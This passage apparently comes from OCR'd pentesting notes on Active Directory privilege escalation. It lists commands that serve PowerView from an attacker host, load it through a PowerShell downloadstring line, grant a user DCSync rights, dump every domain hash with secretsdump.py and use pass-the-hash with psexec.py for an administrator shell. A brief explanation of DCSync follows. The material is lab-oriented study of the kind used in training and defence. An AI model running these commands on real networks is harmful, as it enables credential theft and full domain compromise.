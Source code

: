     ```python
    # On Kali

    locate PowerView.ps1

    cd into directory w/ PowerView.ps1

    python3 -m http.server

    # On Windows

    iex(new-object net.webclient).downloadstring('http://<kali_ip>:8000/PowerView.ps1')

    $pass = convertto-securestring 'Password1234!' -asplain -force

    $cred = new-object system.management.automation.pscredential('htb\\jacob', $pass)

    Add-ObjectACL -PrincipalIdentity jacob -Credential $cred -Rights DCSync

    exit
    ```

    Step 3:

    ```python
    # On Kali

    secretsdump.py htb\\jacob@<IP>

    Password: Password1234!

    # You will obtain all of the hashes. Grab the administrator hash (the second half).

    psexec.py administrator@<IP> -hashes <Hash_Here>

    C:\\Windows\\system32> 
    ```

### GetChangesAll/Replication (DCSync)

* This is one of the coolest escalation vectors in my opinion.
* DCSync allows an attacker to impersonate a failover Domain Controller.
* This then allows all user hashes to be shared.
* Look for GetChanges that point towards the domain.

Example:
